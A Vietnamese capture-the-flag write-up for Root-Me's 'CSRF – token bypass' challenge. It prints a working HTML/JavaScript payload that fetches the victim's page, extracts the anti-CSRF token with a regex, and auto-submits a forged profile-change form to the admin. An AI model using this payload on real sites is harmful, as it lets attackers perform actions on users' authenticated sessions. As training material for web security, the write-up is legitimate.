 # WRITE UP

**Challenge:** [CSRF – token bypass](https://www.root-me.org/en/Challenges/Web-Client/CSRF-token-bypass)

Nhìn qua, ta thấy website này có các chức năng tương tự bài CSRF 0 protection. Tuy vậy, ta có thể phát hiện được ở tab Contact, có một thẻ input bị hidden có name là token:

<img src="./media/image1.png" style="width:6.5in;height:0.76667in" />

Giá trị token này sẽ thay đổi liên tục khi ta thực hiện submit form:

<img src="./media/image2.png" style="width:6.5in;height:0.54722in" />

Điều này sẽ được xác thực bởi server. Từ đó, ta cần trộm token này trước khi submit form như bài CSRF 0 protection. Ta có thể sử dụng Ajax và XMLHttpRequest() để có thể get được value này.

&lt;form id="clickme" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data"&gt;

&lt;input type="text" name="username" value="19522445"&gt;

&lt;input type="checkbox" name="status" checked&gt;

&lt;input id="token" type="hidden" name="token" value=""/&gt;

&lt;button type="submit"&gt;Submit&lt;/button&gt;

&lt;/form&gt;

&lt;script&gt;

var req = new XMLHttpRequest();

req.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);

req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

req.send();

var token = req.responseText.match(/\[abcdef0123456789\]{32}/);

document.getElementById("token").value = token;

document.getElementById("clickme").submit();

&lt;/script&gt;

<img src="./media/image3.png" style="width:6.5in;height:2.19444in" alt="Graphical user interface, text, application Description automatically generated" />

Submit để gửi contact đến admin và qua tab Private để kiểm tra kết quả. Sau hơn 1 phút, ta nhận được flag:

<img src="./media/image4.png" style="width:5.968in;height:2.21847in" alt="Graphical user interface, text, application, chat or text message Description automatically generated" />

- Flag: "****************************"
